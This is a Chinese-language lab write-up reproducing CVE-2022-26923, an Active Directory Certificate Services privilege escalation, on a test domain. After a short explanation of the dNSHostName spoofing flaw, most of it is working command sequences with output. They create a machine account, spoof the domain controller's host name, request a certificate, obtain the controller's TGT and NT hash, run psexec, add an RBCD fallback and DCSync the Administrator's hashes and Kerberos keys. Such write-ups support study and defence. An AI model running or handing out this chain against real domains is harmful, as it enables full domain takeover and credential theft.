



<span style="font-size: 40px; font-weight: bold;">CVE-2022-26923</span>

<div style="text-align: right;">

date: "2024-01-11"

</div>

> AD CS域内权限提升漏洞

# 1. 原因

由于计算机账户中的 `dNSHostName` 不具有唯一性，可以对其进行伪造，冒充高权限的域控机器账户，实现权限提升的效果

本质上的原理是通过 `LDAP` 添加了一个计算机账户（machine账户），之后这个域内就相当于有两台计算机（但实际只有一台）。之后它把添加的这个计算机账户的 `dNShostname `改成和 `DC` 一样。之后再通过这个账户去请求的时候，`certipy` 会通过用证书进行认证的方式，这种方式不同于使用用户名和密码，它会通过 `DNShost` 来解析你映射到了哪个账户上。由于之前这个计算机账户的 `dNShostname` 改成和 `DC` 一样了，所以就会返回 `DC` 的hash值。

# 2. 利用条件

1. 能够创建机器账户（或拥有某机器账户的控制权）
2. 对机器账户具有修改属性的权限
3. 目标未打相应补丁

# 3. 复现

查找证书服务器，并尝试查找可以利用的证书模板

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q certipy find -u h0ny@t1sts.com -p hony@yyd4 -dc-ip 192.168.130.3 -vulnerable -stdout       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 't1sts-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 't1sts-DC-CA' via CSRA: Can't find a valid stringBinding to connect
[*] Trying to get CA configuration for 't1sts-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 't1sts-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : t1sts-DC-CA
    DNS Name                            : DC.t1sts.com
    Certificate Subject                 : CN=t1sts-DC-CA, DC=t1sts, DC=com
    Certificate Serial Number           : 7DFA059A448E638E4993D5763DCB8BA1
    Certificate Validity Start          : 2024-01-09 15:12:01+00:00
    Certificate Validity End            : 2029-01-09 15:22:01+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : T1STS.COM\Administrators
      Access Rights
        ManageCertificates              : T1STS.COM\Administrators
                                          T1STS.COM\Domain Admins
                                          T1STS.COM\Enterprise Admins
        ManageCa                        : T1STS.COM\Administrators
                                          T1STS.COM\Domain Admins
                                          T1STS.COM\Enterprise Admins
        Enroll                          : T1STS.COM\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```

## 3.1 创建机器账户及设置DNShostname

### 3.1.1 创建机器账户

以下两种方法任选其一即可

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q python3 bloodyAD.py -d t1sts.com -u h0ny -p 'hony@yyd4' --host 192.168.130.3 add computer ceshi 'Admin@123'
[+] ceshi created
```



```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-addcomputer 't1sts.com/h0ny:hony@yyd4' -computer-name 'ceshi$' -computer-pass 'Admin@123' -dc-ip 192.168.130.3         
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account ceshi$ with password Admin@123.
```



###  3.1.2 设置dNSHostName

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q python3 bloodyAD.py -d t1sts.com -u h0ny -p 'hony@yyd4' --host 192.168.130.3 set object 'CN=ceshi,CN=Computers,DC=t1sts,DC=com' dNSHostName -v DC.t1sts.com
['DC.t1sts.com']
[+] CN=ceshi,CN=Computers,DC=t1sts,DC=com's dNSHostName has been updated
```

### 3.1.3 懒人专属

使用`certipy`一次搞定机器用户创建及设置`DNShostname`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q certipy account create -u h0ny@t1sts.com -p hony@yyd4 -dc-ip 192.168.130.3 -user 'ceshi1$' -pass 'Admin@123' -dns 'DC.t1sts.com'       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : ceshi$
    unicodePwd                          : Admin@123
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/ceshi
                                          RestrictedKrbHost/ceshi
    dnsHostName                         : DC.t1sts.com
[*] Successfully created account 'ceshi$' with password 'Admin@123'
```

成功结果如下所示



## 3.2 申请证书

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy req -u ceshi\$@t1sts.com -p 'Admin@123' -target-ip 192.168.130.3 -ca "t1sts-DC-CA" -template Machine
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: T1STS.COM
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with DNS Host Name 'DC.t1sts.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc.pfx'
```

## 3.3 请求TGT

用申请到的证书，向 KDC 请求域控的 TGT

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q certipy auth -pfx dc.pfx -username DC\$ -domain t1sts.com -dc-ip 192.168.130.3
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc$@t1sts.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got hash for 'dc$@t1sts.com': aad3b435b51404eeaad3b435b51404ee:e091f2c3b12cc51ef476c641baa9abc2
```

若成功则会在当前目录下会存在一个`ccache`后缀文件，将其导入就可以直接PTH域控

```shell
export KRB5CCNAME=dc.ccache
proxychains4 -q impacket-psexec 't1sts.com/administrator@DC.t1sts.com' -target-ip 192.168.130.3 -codec gbk -no-pass -k
```

## 3.4 RBCD

若上述代码执行失败，让我们尝试使用[BloodyAD](https://github.com/CravateRouge/bloodyAD)的 RBCD 技术及其证书身份验证功能：

```shell
// 下述命令二选一将pfx格式转为pem格式

certipy cert -pfx dc.pfx > dc.pem

openssl pkcs12 -in dc.pfx -out dc.pem -nodes
```

使用证书进行认证，配置 RBCD 进行攻击

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q python3 bloodyAD.py -d t1sts.com  -c ":dc.pem" -u 'ceshi$' --host 192.168.130.3 add rbcd 'DC$' 'ceshi$' 
[!] No security descriptor has been returned, a new one will be created
[+] ceshi$ can now impersonate users on DC$ via S4U2Proxy
```

请求并冒充域管权限的服务票据

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q impacket-getST 't1sts.com/ceshi$:Admin@123' -spn LDAP/DC.t1sts.com -impersonate Administrator -dc-ip 192.168.130.3
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

DCSync 从域控导出凭据

```shell
┌──(root㉿kali)-[~/Desktop/bloodyAD-main]
└─# export KRB5CCNAME=Administrator.ccache

┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-secretsdump 't1sts.com/administrator@DC.t1sts.com' -target-ip 192.168.130.3 -no-pass -k -just-dc-user Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:427ba0db51bec30fabf45469816ac129:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:56f1a09b55e5280f8c4c0c9ba691aebb866bc8b2f223989b37705cbb608187d8
Administrator:aes128-cts-hmac-sha1-96:082a7437d0e49f93cafdb54c4fca5afb
Administrator:des-cbc-md5:980b8067f4b0aef1
[*] Cleaning up... 
                                         
```

